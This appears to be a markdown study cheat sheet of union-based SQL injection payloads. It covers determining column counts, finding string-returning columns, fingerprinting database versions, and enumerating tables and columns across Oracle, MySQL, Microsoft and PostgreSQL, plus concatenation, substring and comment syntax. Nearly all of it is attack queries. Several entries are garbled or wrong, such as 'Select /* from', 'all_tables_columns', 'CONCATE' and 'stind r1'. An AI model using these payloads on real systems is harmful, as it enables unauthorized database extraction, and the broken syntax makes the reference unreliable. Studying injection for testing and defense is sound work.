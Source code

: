 ## find number of columns vulnerable to SQL I
1. use order by 1 (integer ) and increment until error goes on
this will give us the number of columns that are returning
2. or another  method is UNION Select NULL,NULL --  "if number of null DOESN'T match then DB gives error"
#### note for Oracle Database 
always use **From Dual --** in select query because it is the builtin table in oracle.

## find the column which gives us the string value in return 
```bash
Query= 'UNION SELECT NULL,"A"+--+'
```
OR
```bash
query = ' UNION SELECT "A",NULL --+'
```
(if returns our string value in any columns that is data retrival point we can say)

## find DataBase Type and Version
|Database | Query |
|---|---|
|Microsoft | 'Select @@version'|
|MySQL |'Select @@version'|
|Oracle | 'Select \* from v\$Version'|
|PostgreSQL| 'Select version()'|

## listing content of DB 
#### Listing tables 
```bash
Query= 'information_schema.tables' 
```
(list out the table names in the database)
#### listing columns
```bash
Query= ' Select /* from information_schema.columns Where table_name="table name we know" '
```
***NOTE:  always use + instead of (space)***

### For Oracle DataBase

**For tables**
```bash
Query= 'Select /* from all_tables '
```
**For columns** 
```bash
Query= 'Select * from all_tables_columns where table_name="table name"'
```
## String Concation 
***used for concatenation multiple string in the single string***

|***Database* **| ***Method for concate***|
|---|---|
|**Oracle **|** 'str1'  \| \|'str2'** |
|**Microsoft** |** 'str1'+str2**|
|**PostgreSQL**|**'stind r1' \|\|'str2'**|
|**MySql** | **'str1'(space)'str2'  OR CONCATE('str1','str2')**|

## Sub-string or retrieve part of the string
|DataBase| Query|
|---|---|
|Oracle |SUBSTR('the payload to return string or string', index_of_string, number_of_charector_to retrive)|
|Microsoft|SUBSTRING('STRING ', Index, number of character)|
|PostgreSQL| SUBSTRING('string', index, character)|
|MySQL| SUBSTRING('string', index, character)|

## Comments in SQL
|DataBase|Comment|
|---|---|
|Oracle|'--'|
|Microsoft|'--'and /\*\*/|
|PostgreSql|'--' and /\*\*/ |
|MySQL| \# , --(white space), /\*\*/ |

